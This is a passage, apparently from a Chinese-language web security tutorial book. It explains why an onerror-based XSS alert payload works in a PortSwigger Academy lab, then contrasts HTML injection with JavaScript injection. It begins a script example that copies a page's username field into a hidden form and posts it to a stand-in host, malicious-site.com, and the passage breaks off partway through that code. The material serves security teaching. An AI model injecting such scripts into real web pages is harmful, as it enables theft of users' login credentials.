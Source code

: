 图 9.8 – 警报负载

一旦成功，你将看到警报负载，PortSwigger Academy 实验会祝贺你。做得好！

## 它是如何工作的...

之所以有效，是因为`src`属性的值（**1**）不正确，从而抛出错误。但由于这个错误，一旦`onerror`事件处理程序被激活，负载中的`alert()`函数将被调用。每当客户端尝试加载包含执行负载的恶意 POST 请求的网页时，都会发生以下结果。

当输出未正确编码且用户输入未经过适当清理时，应用程序会暴露于注入漏洞，攻击者可以精心设计恶意 HTML 页面并将其发送给目标进行处理。受害者的浏览器将解析并执行整个构造的页面，因为它无法理解合法代码和恶意 HTML 代码中的好部分。

## 还有更多…

HTML 注入与 JavaScript 执行类似，都是通过将恶意代码注入到 Web 应用程序中，并让浏览器执行这些代码。HTML 注入是将 HTML 代码注入到网站中，通常通过更改输入字段或 URL 参数来实现。浏览器随后会渲染这些注入的代码，这可能会改变网站的结构和设计。或者，JavaScript 注入是指插入 JavaScript 代码。攻击者可以通过多种方式执行 HTML 注入，如下所示：

+   **窃取用户数据**：当网页加载时，攻击者可能会注入 JavaScript 代码来窃取用户信息，如登录凭证。例如，攻击者可能插入代码，生成一个隐藏的表单，并自动将其填充到他们控制的服务器上，从而让他们接收用户的信息。例如，代码可能如下所示：

    ```
     <script>
    ```

    ```
     function stealData() {
    ```

    ```
     var form = document.createElement("form");
    ```

    ```
     form.setAttribute("method", "post");
    ```

    ```
     form.setAttribute("action", "http://malicious-site.com");
    ```

    ```
     var loginInput = document.createElement("input");
    ```

    ```
     loginInput.setAttribute("type", "hidden");
    ```

    ```
     loginInput.setAttribute("name", "username");
    ```

    ```
     loginInput.setAttribute("value", document.getElementById("username").value);
    ```

    ```
     form.appendChild(loginInput);
    ```

